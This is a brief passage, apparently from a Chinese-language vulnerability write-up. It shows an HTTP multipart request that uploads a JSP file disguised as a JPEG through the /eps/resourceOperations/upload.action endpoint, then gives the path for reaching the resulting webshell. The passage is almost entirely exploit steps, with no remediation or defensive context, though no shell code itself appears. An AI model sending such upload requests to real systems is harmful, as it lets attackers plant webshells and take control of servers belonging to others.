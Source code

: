 发送请求包上传文件：

```
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg


------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

访问webshell：

```
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```

